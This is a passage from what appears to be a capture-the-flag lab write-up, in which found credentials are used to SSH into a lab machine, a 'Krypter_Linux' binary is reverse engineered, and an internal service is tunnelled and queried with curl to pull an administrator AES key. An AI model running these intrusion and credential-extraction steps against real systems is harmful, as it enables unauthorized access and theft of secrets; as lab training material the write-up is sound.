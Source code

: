 In there are two credentials and the user _development_ is a user on the box, so the credentials could work on SSH:
```
ssh development@10.10.10.228
```

### Privilege Escalation to Administrator

There is a directory _C:/Development_ with a file called _Krypter_Linux_ that can be downloaded to our local client:
```
scp development@10.10.10.228:/Development/Krypter_Linux .
```

The `file` command shows that it is an **ELF binary**, so it be analyzed via **Reverse Engineering**:
```
Krypter_Linux: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ab1fa8d6929805501e1793c8b4ddec5c127c6a12, for GNU/Linux 3.2.0, not stripped
```

To analyze this file, I will use **Ghidra**.
In the _main function_ there is a description of the tool, which can also be seen when executing it:
```
Krypter V1.2
New project by Juliette.
New features added weekly!
What to expect next update:
- Windows version with GUI support
- Get password from cloud and AUTOMATICALLY decrypt!
```

It makes requests to the hostname _passmanager.htb_ on port 1234:
```
puts("Requesting decryption key from cloud...\nAccount: Administrator");
curl_easy_setopt(local_28,0x2712,"http://passmanager.htb:1234/index.php");
curl_easy_setopt(local_28,0x271f,"method=select&username=administrator&table=passwords");
```

To access this port, it has to be tunneled to our local client:
```
ssh -L 1234:127.0.0.1:1234 development@10.10.10.228
```

Testing the connection:
```
curl http://127.0.0.1:1234/index.php
```
```
Bad Request
```

Sending the request with the specified data:
```
curl http://127.0.0.1:1234/index.php -d "method=select&username=administrator&table=passwords"
```
```
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```
